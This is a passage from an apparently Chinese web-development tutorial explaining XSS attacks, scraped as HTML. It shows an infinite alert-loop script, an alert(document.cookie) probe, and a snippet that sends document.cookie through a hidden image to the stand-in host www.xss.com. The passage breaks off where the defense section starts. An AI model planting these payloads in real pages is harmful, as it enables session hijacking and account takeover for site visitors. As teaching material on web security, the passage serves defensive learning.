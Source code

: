       <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<script>
    while (true) {
        alert('Hello')
    }
</script>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="javascript hljs"><code class="javascript">&lt;script&gt;
    <span class="hljs-keyword">while</span> (<span class="hljs-literal">true</span>) {
        alert(<span class="hljs-string">'Hello'</span>)
    }
&lt;<span class="hljs-regexp">/script&gt;</span></code></pre>
<p>这时，网站就挂了。</p>
</li>
<li>
<p>当然，最常见 xss 攻击是读取 Cookie：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<script>
    alert(document.cookie)
</script>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="javascript hljs"><code class="javascript">&lt;script&gt;
    alert(<span class="hljs-built_in">document</span>.cookie)
&lt;<span class="hljs-regexp">/script&gt;</span></code></pre>
<p><span class="img-wrap"><img data-src="http://upload-images.jianshu.io/upload_images/5052047-b62c08f3f611929c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" src="https://static.alili.techhttp://upload-images.jianshu.io/upload_images/5052047-b62c08f3f611929c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" alt="" title="" style="cursor: pointer; display: inline;"></span></p>
<p>Cookie 发送给攻击者的站点：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="var img = document.createElement('img')
img.src='http://www.xss.com?cookie=' + document.cookie
img.style.display='none'
document.getElementsByTagName('body')[0].appendChild(img)" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="javascript hljs"><code class="javascript"><span class="hljs-keyword">var</span> img = <span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">'img'</span>)
img.src=<span class="hljs-string">'http://www.xss.com?cookie='</span> + <span class="hljs-built_in">document</span>.cookie
img.style.display=<span class="hljs-string">'none'</span>
<span class="hljs-built_in">document</span>.getElementsByTagName(<span class="hljs-string">'body'</span>)[<span class="hljs-number">0</span>].appendChild(img)</code></pre>
<p>当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。</p>
</li>
</ul>
<h3 id="articleHeader2">防御</h3>
<p>按理说，只要有输入数据的地方，就可能存在 XSS 危险。</p>
<ul>
<li>